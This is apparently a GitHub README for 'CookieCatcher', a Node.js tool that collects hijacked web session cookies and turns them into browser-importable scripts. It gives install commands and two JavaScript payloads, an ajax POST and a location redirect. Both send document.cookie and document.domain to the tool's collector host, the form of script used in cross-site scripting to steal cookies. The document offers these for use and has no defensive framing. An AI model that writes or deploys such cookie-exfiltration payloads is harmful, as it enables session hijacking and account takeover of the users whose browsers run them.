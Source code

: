 # CookieCatcher (version. 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

<center><img src="http://2.bp.blogspot.com/-1H9hR_zOsP8/VTflh5wSpEI/AAAAAAAAAPs/MoLPDkpRRuI/s1600/Screen%2BShot%2B2015-04-22%2Bat%2B1.18.09%2BPM.png"></center>

### Features (that is simple)
- Capture request through GET, POST, HEAD, OPTIONS, DELETE, PUT or PATCH (methods)
- Parse to cookies format
- Create script to import into your browser

### How to install this little devil?
```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```

### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```
You can see the file: example.html

#### Made with love in Colombia.
# License:

CookieCatcher is licensed under the GPLv3: http://www.gnu.org/licenses/gpl-3.0.html. 

